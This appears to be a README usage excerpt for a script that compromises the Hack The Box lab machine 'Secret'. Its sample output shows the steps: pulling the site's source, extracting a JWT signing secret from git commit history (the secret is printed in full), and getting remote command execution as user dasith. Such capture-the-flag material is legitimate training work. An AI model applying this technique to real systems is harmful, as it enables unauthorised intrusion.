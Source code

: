 # Usage:
Run the script `run.sh` to build and run a docker container to get a point of entry of the HTB machine "Secret":
```bash
$ ./run.sh <IP>
[*] Add target hostname into /etc/hosts
[*] Download the git repository from http://secret.htb/download/files.zip
[*] unzip the downlaod file "files.zip"
[*] Get the JWT token secret from the git commit history
[*] JWT token secret: gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
secret.htb> id
"uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)\n"
secret.htb>
```

